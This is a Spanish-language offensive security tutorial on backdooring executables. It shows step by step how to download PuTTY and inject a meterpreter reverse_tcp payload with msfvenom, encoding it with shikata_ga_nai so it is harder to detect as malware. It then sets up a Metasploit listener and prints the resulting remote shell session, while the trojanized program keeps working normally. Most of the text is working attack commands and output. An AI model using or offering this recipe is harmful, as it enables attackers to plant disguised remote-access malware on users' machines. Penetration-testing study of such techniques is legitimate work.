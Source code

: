 # Backdoors en binarios

Esto consiste en coger un ejecutable o un programa que el usuario utilice frecuentemente y vamos a injectarle codigo malicoso para que cada vez que ejecute ese programa nos devuelva una consexion reversa, pero dicho programa va a seguir funcionando exactamente igual que lo hacia antes de estar `backdoorizado`.

Por ejemplo vamos a utilizar una herramienta que utilizan mucho los administradores y es el programa llamado `PuTTY`:

Primero nos descargaremos el archivo.

```shell
wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
```

Y ahora vamos a utilizar `msfvenom` para incrustar el codigo de la `backdoor` dentro de la aplicacion:

```shell
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```

Info:

```
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: puttyX.exe
```

Con esto lo que estamos haciendo es que con el `-a` especificarle la arquitectura en este caso `32 bits` con el `--platform` especificamos el sistema operativo en el que se va a ejecutar en mi caso `windows` con el `-x` el nombre del archivo en el cual queremos injectar la `backdoor` con el `-p` especificamos el `payload` que vamos a utilizar, con el `-e` especificamos el tipo de codificacion que queremos ponerle al codigo para que sea mas complicado de detectar en el sistema como un `malware`, con el `-i` especificamos que le de `3` vueltas de codificacion, con el `-b` especificamos que omita caracteres en los que pueda generar un problema en este caso `\x00` el `0` en `hexadecimal`.

Ahora antes de ejecutarlo en un `windows` lo que tendremos que hacer es ponernos a escuchar en `metasploit`:

```shell
msfconsole -q
```

La configuracion de la escucha:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
set payload windows/meterpreter/reverse_tcp
exploit
```

Una vez que estemos a la escucha, nos iremos al `windows` nos pasaremos el archivo al mismo y lo ejecutaremos, si lo ejecutamos vemos que se nos inicia la aplicacion normal sin ningun tipo de sospecha:

<figure><img src="../../.gitbook/assets/image (137) (1).png" alt=""><figcaption></figcaption></figure>

Pero si nos vamos al `kali` donde tenemos la escucha, veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.5.186:7777 
[*] Sending stage (176198 bytes) to 192.168.5.181
[*] Meterpreter session 1 opened (192.168.5.186:7777 -> 192.168.5.181:49900) at 2024-11-24 05:21:32 -0500

meterpreter >
```

Veremos que tendremos una shell con el `windows`, por lo que ya tendriamos una `backdoor`.
